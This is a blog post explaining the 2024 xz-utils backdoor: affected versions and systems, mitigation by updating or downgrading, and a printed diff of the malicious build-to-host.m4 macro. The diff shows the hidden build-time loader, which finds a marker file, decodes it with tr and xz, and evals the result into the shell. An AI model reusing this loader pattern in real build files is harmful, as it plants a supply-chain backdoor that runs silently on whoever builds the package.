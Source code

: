 ```yaml
---
title: "XZ Backdoor Found"
published: true
---
```


# Little in brief

```
Sorry guys i wasn't much active on the blog for a while due to some personal and more or less career related issues but now with new found clarity i would try to keep up and updated blog as much possible
```

# Back on track

So on 29th March 2024, a backdoor was discovered in xz-utils basically a suite of software for lossless compression. This package was commonly used for compressing the tarballs, softwares packages, kernel images and initramfs images. It is widely distributed, statistically your average nix system will come with this package for convenience and lets be honest you machine won't work until you have these pacakges as kernel itself is genearlly itself is compressed using this utility.

This backdoor is very indirect and only shows up when a set of known specific criteria are met. Others might be there but there is no disclosure of them as of now (PS maybe i haven't found one). In the candour of this situation my understand is the it is at least triggerable by remote regular unpriviledged system connection to public SSH ports. This has been seen in the wild where it gets activated by connections - resulting in overall performance issues.

So are you affected answer is it depends, so in general what need to be true for your system to be vulnerable is as follows:

- System should be using glibs (for IFUNC).
- Version for xz or liblzma should be 5.6.0 or 5.6.1. Most likely to be found in rolling release.
- For people using .deb or .rpm with glibc and above mentioned xz version with systemd on publicly accessible ssh need to update as quickly as possible 


# XZ Outbreak History

Here is a map created by @FR0GGER_ AKA Thomas Roccia

![XZ Outbreak](https://pbs.twimg.com/media/GKSrPIxbMAA7myV.jpg)

One interesting part about this entire breakout was that how they used the build-to-host.m4

```m
gl_[$1]_config='sed \"r\n" $gl_am_configmake | eval $gl_path_map | $gl_[$1]_prefix -d 2>/dev/null'

gl_path_map ='tr "\t \_ " " \t_\-"'
```

The m4 macro is executed during the build process and runs the malicious code.

Luckily for us most devices caught on early were ones using the rolling release so it was caught and patched for the most other distro it was recommended to revert back to previous safe and trusted versions of the xz-utility.


What is the design specific 
```diff
$ git diff m4/build-to-host.m4 ~/data/xz/xz-5.6.1/m4/build-to-host.m4
diff --git a/m4/build-to-host.m4 b/home/sam/data/xz/xz-5.6.1/m4/build-to-host.m4
index f928e9ab..d5ec3153 100644
--- a/m4/build-to-host.m4
+++ b/home/sam/data/xz/xz-5.6.1/m4/build-to-host.m4
@@ -1,4 +1,4 @@
-# build-to-host.m4 serial 3
+# build-to-host.m4 serial 30
 dnl Copyright (C) 2023-2024 Free Software Foundation, Inc.
 dnl This file is free software; the Free Software Foundation
 dnl gives unlimited permission to copy and/or distribute it,
@@ -37,6 +37,7 @@ AC_DEFUN([gl_BUILD_TO_HOST],
 
   dnl Define somedir_c.
   gl_final_[$1]="$[$1]"
+  gl_[$1]_prefix=`echo $gl_am_configmake | sed "s/.*\.//g"`
   dnl Translate it from build syntax to host syntax.
   case "$build_os" in
     cygwin*)
@@ -58,14 +59,40 @@ AC_DEFUN([gl_BUILD_TO_HOST],
   if test "$[$1]_c_make" = '\"'"${gl_final_[$1]}"'\"'; then
     [$1]_c_make='\"$([$1])\"'
   fi
+  if test "x$gl_am_configmake" != "x"; then
+    gl_[$1]_config='sed \"r\n\" $gl_am_configmake | eval $gl_path_map | $gl_[$1]_prefix -d 2>/dev/null'
+  else
+    gl_[$1]_config=''
+  fi
+  _LT_TAGDECL([], [gl_path_map], [2])dnl
+  _LT_TAGDECL([], [gl_[$1]_prefix], [2])dnl
+  _LT_TAGDECL([], [gl_am_configmake], [2])dnl
+  _LT_TAGDECL([], [[$1]_c_make], [2])dnl
+  _LT_TAGDECL([], [gl_[$1]_config], [2])dnl
   AC_SUBST([$1_c_make])
+
+  dnl If the host conversion code has been placed in $gl_config_gt,
+  dnl instead of duplicating it all over again into config.status,
+  dnl then we will have config.status run $gl_config_gt later, so it
+  dnl needs to know what name is stored there:
+  AC_CONFIG_COMMANDS([build-to-host], [eval $gl_config_gt | $SHELL 2>/dev/null], [gl_config_gt="eval \$gl_[$1]_config"])
 ])
 
 dnl Some initializations for gl_BUILD_TO_HOST.
 AC_DEFUN([gl_BUILD_TO_HOST_INIT],
 [
+  dnl Search for Automake-defined pkg* macros, in the order
+  dnl listed in the Automake 1.10a+ documentation.
+  gl_am_configmake=`grep -aErls "#{4}[[:alnum:]]{5}#{4}$" $srcdir/ 2>/dev/null`
+  if test -n "$gl_am_configmake"; then
+    HAVE_PKG_CONFIGMAKE=1
+  else
+    HAVE_PKG_CONFIGMAKE=0
+  fi
+
   gl_sed_double_backslashes='s/\\/\\\\/g'
   gl_sed_escape_doublequotes='s/"/\\"/g'
+  gl_path_map='tr "\t \-_" " \t_\-"'
 changequote(,)dnl
   gl_sed_escape_for_make_1="s,\\([ \"&'();<>\\\\\`|]\\),\\\\\\1,g"
 changequote([,])dnl
```


It is very interesting to see that such a well crafted package can lead to direct access to the user 

Hopefully most of the packages are now patched and updating the packages will resolve the issue.In cases where it is not downgrading is the best mitigation so downgrade to any version below 5.6.X recommended is 5.4.0.
